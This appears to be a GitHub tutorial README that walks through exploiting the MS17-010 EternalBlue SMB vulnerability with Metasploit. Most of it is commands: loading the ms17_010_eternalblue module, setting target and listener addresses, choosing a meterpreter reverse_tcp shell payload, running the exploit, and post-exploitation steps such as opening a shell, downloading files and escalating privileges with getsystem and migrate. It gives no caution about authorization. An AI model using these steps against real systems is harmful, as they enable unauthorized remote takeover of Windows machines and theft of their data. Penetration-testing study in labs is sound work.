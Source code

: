 # Exploiting MS17-010 EternalBlue Vulnerability using Metasploit

<details>
<summary><strong>Metasploit</strong></summary>
Metasploit is an open-source penetration testing framework that offers a vast collection of tools and exploits for security testing, vulnerability assessment, and penetration testing. It provides a comprehensive platform for security professionals and researchers to test systems, identify vulnerabilities, and execute various security assessments. Metasploit includes a vast database of exploits, payloads, auxiliary modules, and post-exploitation tools, enabling users to assess the security posture of systems and networks.
</details>

<details>
<summary><strong>Eternal Blue</strong></summary>
EternalBlue is the codename for a critical software vulnerability in Microsoft's Windows operating system discovered by the National Security Agency (NSA) and later leaked by a hacking group. This vulnerability (CVE-2017-0144) affects the Windows Server Message Block (SMB) protocol. EternalBlue exploits a flaw in the SMBv1 protocol, allowing attackers to execute arbitrary code remotely on a vulnerable system without requiring user interaction. It was famously used as part of the WannaCry ransomware attack, highlighting its significance and the need for timely system patching and security measures.
</details>

## 1. Set Up Your Environment
Ensure you have Metasploit installed on your system. You can use Kali Linux, Parrot OS, or install Metasploit manually on your preferred OS.

## 2. Start Metasploit Framework
Open a terminal and launch Metasploit by typing:

```bash
msfconsole
```

Once inside Metasploit, you can search for the EternalBlue module using:

```bash
show module
```

## 3. Search for the MS17-010 EternalBlue Exploit Module
To search for a specific module:

```bash
search ms17-010
```

## 4. Select the Exploit Module
After finding the appropriate exploit module (e.g., exploit/windows/smb/ms17_010_eternalblue), select it by entering:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

## 5. Set Required Parameters

Configure necessary parameters by employing the show options command to view and adjust settings as needed. Common options include `RHOSTS`,`LHOST`, `RPORT`, etc.

```bash
set RHOSTS <Target IP>
```
-------------------------------------------------------------------------------
| Parameter | Description                           | Example Usage           |
|-----------|---------------------------------------|-------------------------|
| RHOSTS    | Remote host(s) IP address(es)         | `set RHOSTS 192.168.1.5`|
| LHOST     | Local host listening IP for payloads  | `set LHOST 192.168.1.2` |
| RPORT     | Remote port for the target service    | `set RPORT 445`         |
-------------------------------------------------------------------------------

## 6. Set Payload

After selecting the exploit module, you need to set the payload that will be delivered to the compromised system. This payload determines the action or code executed on the target after exploitation.
For example, to set the payload as a reverse shell for a Windows target:

```bash
set payload windows/meterpreter/reverse_tcp
```

## 7. Execute the Exploit
Once all necessary options are set, run the exploit by typing:

```bash
exploit
```

The exploit might take some time to run. Upon successful exploitation, Metasploit may display the meterpreter prompt, indicating a successful compromise of the target system.

## 8. Post-Exploitation Actions

Once the exploit succeeds and you gain access to the compromised system, you can perform various post-exploitation actions using the `meterpreter` prompt.

### Some useful post-exploitation commands:

- **System Commands**: Execute system commands on the target system using :
  
```bash
shell
```
  
Gather System Information: Retrieve system information like system details, user information, etc. using commands such as `sysinfo`, `getuid`, etc.

File Operations: Manipulate files on the compromised system using commands like `download`, `upload`, `ls`, `cd`, etc.

Privilege Escalation: Attempt to elevate privileges on the target system using modules like `getsystem`, `migrate`, etc.




